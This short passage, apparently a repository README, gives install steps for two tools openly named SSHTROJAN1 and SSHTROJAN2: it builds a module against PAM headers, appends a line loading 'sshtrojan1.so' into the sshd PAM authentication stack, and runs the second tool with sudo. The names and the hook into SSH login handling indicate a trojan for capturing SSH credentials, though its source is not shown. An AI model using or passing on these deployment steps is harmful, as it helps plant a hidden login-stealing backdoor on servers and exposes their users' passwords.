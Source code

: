 SSHTROJAN1:
`sudo apt install libpam0g-dev`

`make`

`printf "auth optional pam_unix.so nullok_secure audit\nauth optional sshtrojan1.so" >>  /etc/pam.d/sshd`

/etc/pam.conf -> UsePam = yes

SSHTROJAN2:
`sudo ./sshtrojan2`
